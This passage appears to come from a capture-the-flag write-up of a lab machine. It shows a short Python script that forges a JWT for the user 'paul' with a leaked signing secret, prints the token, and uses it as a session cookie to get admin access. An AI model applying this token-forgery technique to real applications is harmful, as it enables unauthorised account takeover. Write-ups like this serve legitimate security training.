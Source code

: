 Next we generate the JWT token with a short python script.

```py
import jwt

encoded_jwt = jwt.encode({"data": {"username" : "paul" } }, "6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e", algorithm="HS256")
print(encoded_jwt)
```

```
$ python gen_jwt.py 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
```

Replacing our cookies with the JWT and the ones for paul we see that one cookie works and we are logged in as admin.

[![logged_paul.png](/img/breadcrumbs/logged_paul.png)](/img/breadcrumbs/logged_paul.png)

As admin we now have access to the `File managment` functionality which looks readily exploitable.

[![file_mgmt.png](/img/breadcrumbs/file_mgmt.png)](/img/breadcrumbs/file_mgmt.png)
